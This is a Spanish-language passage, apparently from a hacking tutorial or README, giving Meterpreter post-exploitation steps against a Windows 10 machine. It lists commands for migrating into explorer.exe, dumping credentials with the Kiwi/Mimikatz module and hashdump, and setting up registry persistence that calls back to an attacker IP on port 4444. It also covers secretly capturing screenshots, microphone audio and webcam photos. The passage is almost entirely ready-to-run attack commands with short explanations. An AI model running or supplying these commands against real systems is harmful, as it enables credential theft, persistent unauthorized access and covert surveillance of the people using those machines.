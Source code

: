 Ejemplo:

```
Computer: WIN10-TEST
OS: Windows 10 (Build 19045)
User: User-PC\User
```

---

#### 2️⃣ Ver procesos y migrar

```bash
ps
migrate <pid>
```

> Migrar a un proceso como `explorer.exe` para evitar que se cierre tu sesión si el usuario cierra el `shell.exe`.

---

#### 3️⃣ Robo de contraseñas con Mimikatz

Cargar el módulo Kiwi:

```bash
load kiwi
creds_all         # Listar todas las credenciales activas
```

También puedes usar:

```bash
hashdump          # Ver hashes de SAM (usuarios locales)
```

---

#### 4️⃣ Persistencia (Acceso tras reinicio)

```bash
run persistence -U -i 5 -p 4444 -r 192.168.100.2
```

- `-U`: Usuario actual.
- `-i 5`: Intentar reconectar cada 5 segundos.
- `-p`: Puerto.
- `-r`: IP atacante.

Se guarda un acceso en el Registro de Windows (auto start).

---

#### 5️⃣ Captura de pantalla, webcam y audio

```bash
screenshot            # Toma una captura de pantalla
record_mic -d 10      # Graba audio por 10 segundos
webcam_snap 1         # Toma una foto de la webcam
```

---